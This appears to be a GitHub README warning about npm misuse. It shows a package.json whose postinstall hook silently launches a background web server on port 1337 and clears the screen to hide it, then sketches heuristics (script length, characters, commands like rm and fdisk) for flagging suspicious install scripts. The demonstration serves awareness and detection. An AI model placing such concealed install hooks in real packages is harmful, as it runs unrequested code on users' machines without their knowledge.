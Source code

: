 # don't do bad things with node

Node.js as a young technology is great but also great for misuse. Go (!) and support (!) **[THE NODE SECURITY PROJECT](http://nodesecurity.io/)**

# about this repo

Here I am showing misuse to make you (and me) more mindful. It is easy, just look inside the code of others, support projects like the node security project and do good things!

Let's dive into some code:

# NPM MISUSE #1

NPM is so great! [Isaac](https://github.com/isaacs‎) did a great job! But, you have to use it mindful. Look at the following example, it is a minimal npm `package.json` **but** if I write it like this, I am able to do whatever I want on your system if you are going to install my package. Like starting a webserver on port `1337` **and hiding it from you**.

```json
{
  "name": "test",
  "scripts": {
    "postinstall": "echo 'var http=require(\"http\");http.createServer(function (req, res) {res.writeHead(200, {\"Content-Type\": \"text/plain\"}); res.end(\"hi, i just started a background http server at your system. You should be patient! \");}).listen(1337);//console.log(\"Server running at http://127.0.0.1:1337/\")' | node & clear;"
  }
}
```


```shell
$ ps
  PID TTY           TIME CMD
  586 ttys000    0:00.55 /bin/zsh
  903 ttys001    0:00.07 /bin/zsh

$ npm install
$ 

$ ps
  PID TTY           TIME CMD
  586 ttys000    0:00.56 /bin/zsh
 1555 ttys000    0:00.05 node
  903 ttys001    0:00.07 /bin/zsh

$ curl localhost:1337
hi, i just started a background http server at your system. You should be patient! %
```

as you can see, I am piping a text string to node, putting the node process into the background and clearing the screen. So, please be mindful and support security projects.

# An auto checking approach

This is just an approach, a test how to make an automated testing system to find suspicious code inside the npm's scripts-object.

### Key "suspicious code" indicators

* The `value` of a key inside the script-object is longer than `80` characters
* * example: `node runmyprettylongjs.withsubname.js -flag 1 -flag 2 -flag 3 -flag 4 -flag 5 -n` thats still OK but anything longer than that is *suspicious* and should be checked.
* Unix / Win-Shell commands like:
* * `fdisk` (of cause)
* * and all from [evil *nix commands](http://www.wiki.darksyndicate.net/index.php?title=Evil_*nix_Commands&printable=yes)

So, for an automatic detection *length* and *suspicious characters* like `/`, `\`, `=/`, `/;`, `*` are indicators. Plus unix system keywords like `cd`, `rm`, `mv`, `cp`, `dd`, `awk`, `chmod` and some others.

Of cause, some of these commands can be used to do good things. These indicators should just be used to pre-filter package.json files.
